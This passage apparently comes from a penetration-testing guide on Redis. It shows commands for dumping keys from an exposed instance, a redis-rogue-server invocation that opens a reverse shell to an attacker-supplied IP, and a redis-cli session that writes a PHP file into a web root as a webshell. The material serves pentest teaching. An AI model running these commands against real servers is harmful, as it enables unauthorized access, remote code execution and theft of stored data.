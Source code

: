 In that example the **database 0 and 1** are being used. **Database 0 contains 4 keys and database 1 contains 1**. By default Redis will use database 0. In order to dump for example database 1 you need to do:

```bash
SELECT 1
[ ... Indicate the database ... ]
KEYS * 
[ ... Get Keys ... ]
GET <KEY>
[ ... Get Key ... ]
```

In case you get the follwing error `-WRONGTYPE Operation against a key holding the wrong kind of value` while running `GET <KEY>` it's because the key may be something else than a string or an integer and requires a special operator to display it.

To know the type of the key, use the `TYPE` command, example below for list and hash keys.

```
TYPE <KEY>
[ ... Type of the Key ... ]
LRANGE <KEY> 0 -1
[ ... Get list items ... ]
HGET <KEY> <FIELD>
[ ... Get hash item ... ]
```

**Dump the database with npm**[ **redis-dump**](https://www.npmjs.com/package/redis-dump) **or python** [**redis-utils**](https://pypi.org/project/redis-utils/)

## Redis RCE

### Interactive Shell

[**redis-rogue-server**](https://github.com/n0b0dyCN/redis-rogue-server) can automatically get an interactive shell or a reverse shell

```
./redis-rogue-server.py --rhost <TARGET_IP> --lhost <ACCACKER_IP>
```

### Webshell

Info from [**here**](https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html). You must know the **path** of the **Web site folder**:

```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```
